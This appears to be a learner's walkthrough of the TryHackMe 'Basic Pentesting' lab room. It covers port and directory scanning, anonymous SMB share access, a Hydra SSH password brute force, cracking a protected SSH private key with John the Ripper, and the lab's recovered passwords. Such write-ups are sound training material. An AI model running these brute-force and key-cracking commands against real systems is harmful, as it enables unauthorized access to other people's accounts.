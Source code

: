 > Sun 3 Aug 2025
> al3xx


![[s8.png|350]]

# Basic Pentesting [Link](https://tryhackme.com/room/basicpentestingjt)

## 1. Reconnaissance
### TCP Scan
**command  :**
```bash
sudo nmap -sC -sV -T4 -oN nmap/nmap.txt 10.10.23.91
```

**Open ports**

| Port | Service     | Version                          |
| ---- | ----------- | -------------------------------- |
| 80   | http        | Apache httpd 2.4.41 ((Ubuntu))   |
| 22   | ssh         | OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 |
| 139  | netbios-ssn | Samba smbd 4                     |
| 445  | netbios-ssn | Samba smbd 4                     |
| 8009 | ajp13       | Apache Jserv (Protocol v1.3)     |

## 2. Enumeration
### HTTP Enumeration
- Port **80** is open.
- The website initially had no visible content.
- Used **Gobuster** to discover hidden directories:

**command  :**
```bash
gobuster dir -u http://10.10.23.91 -w /wordlist/wordlist.txt
```

- Found `/development` 
- Inside `/development` found two files: `dev.txt` and `j.txt`, containing a conversation between `-K` and `-J`.
- From these, learned that `-J` (user Jan) has a weak password.

### SMB Enumeration
- Ports **139** and **445** are open, indicating Samba file shares.
- Enumerated shares with:
**commands :**
```bash
$ smbclient -L //10.10.23.91/Anonymous -N
```
Found shares:
```

	Sharename       Type      Comment
	---------       ----      -------
	Anonymous       Disk
	IPC$            IPC       IPC Service (Samba Server 4.15.13-Ubuntu)
```
Connected to `Anonymous` share:
```
$ smbclient //10.10.23.91/Anonymous -N
```

Found `staff.txt`, revealing two users: **Kay** and **Jan**.

## 3. Exploitation
- Using info from `/development` and `staff.txt`, confirmed `-J` is user **Jan**.
- Brute-forced Jan’s SSH password with Hydra:
**command :**
```bash
$ hydra -l Jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.23.91
```
result
```
[22][ssh] host: 10.10.23.91   login: jan   password: armando
```
Logged in as Jan via SSH:
```bash
$ ssh jan@10.10.23.91
```

## 4. Post-Exploitation
- Explored `/home/kay/.ssh` directory and found a private key file `rsa.txt`
- The private key is password protected.
- Converted the private key for John the Ripper using `ssh2john`:
```bash
ssh2john rsa.txt > new.txt
```
- Cracked the private key password with John:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt new.txt
```
**Password found:** `beeswax`

## 5. Privilege Escalation
Logged in as Kay using the private key and password:
```bash
ssh -i /tmp/priv.txt kay@10.10.106.25
```

- Enter the password:  
    `heresareallystrongpasswordthatfollowsthepasswordpolicy$$`
- Kay has **root privileges**.
